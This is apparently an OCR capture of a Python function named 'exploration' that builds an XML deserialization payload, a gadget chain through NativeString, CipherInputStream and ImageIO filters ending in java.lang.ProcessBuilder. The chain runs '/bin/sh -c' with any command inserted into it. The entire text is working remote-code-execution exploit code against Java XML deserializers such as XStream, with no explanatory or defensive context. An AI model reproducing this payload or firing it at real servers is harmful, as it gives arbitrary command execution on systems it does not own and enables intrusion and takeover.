 	def exploration(command):

		exploit = '''
					<map>
					<entry>
					<jdk.nashorn.internal.objects.NativeString>
					<flags>0</flags>
					<value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
					<dataHandler>
					<dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
					<is class="javax.crypto.CipherInputStream">
					<cipher class="javax.crypto.NullCipher">
					<initialized>false</initialized>
					<opmode>0</opmode>
					<serviceIterator class="javax.imageio.spi.FilterIterator">
					<iter class="javax.imageio.spi.FilterIterator">
					<iter class="java.util.Collections$EmptyIterator"/>
					<next class="java.lang.ProcessBuilder">
					<command>
					<string>/bin/sh</string><string>-c</string><string>'''+ command +'''</string>
					</command>
					<redirectErrorStream>false</redirectErrorStream>
					</next>
					</iter>
					<filter class="javax.imageio.ImageIO$ContainsFilter">
					<method>
					<class>java.lang.ProcessBuilder</class>
					<name>start</name>
					<parameter-types/>
					</method>
					<name>foo</name>
					</filter>
					<next class="string">foo</next>
					</serviceIterator>
					<lock/>
					</cipher>
					<input class="java.lang.ProcessBuilder$NullInputStream"/>
					<ibuffer/>
					<done>false</done>
					<ostart>0</ostart>
					<ofinish>0</ofinish>
					<closed>false</closed>
					</is>
					<consumed>false</consumed>
					</dataSource>
					<transferFlavors/>
					</dataHandler>
					<dataLen>0</dataLen>
					</value>
					</jdk.nashorn.internal.objects.NativeString>
					<jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
					</entry>
					<entry>
					<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
					<jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
					</entry>
					</map>
					'''
